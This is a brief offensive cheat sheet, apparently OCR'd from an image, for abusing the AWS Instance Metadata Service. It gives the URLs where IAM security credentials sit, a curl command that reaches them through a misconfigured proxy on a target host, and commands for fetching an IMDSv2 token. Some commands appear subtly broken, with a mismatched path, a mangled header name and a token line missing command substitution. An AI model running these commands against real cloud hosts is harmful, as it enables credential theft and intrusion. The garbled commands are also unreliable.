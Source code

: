 # Instance Metadata Service URL

 - http://169.254.169.254/latest/meta-data

### Additional IAM creds possibly available here

 - http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_ROLE_NAME

### Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured

 - curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/metadata/iam/security-credentials/ && echo

### IMDS Version 2 has some protections but these commands can be used to access it

 - TOKEN='curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadatatoken-ttl-seconds: 21600"'

 - curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token:$TOKEN"
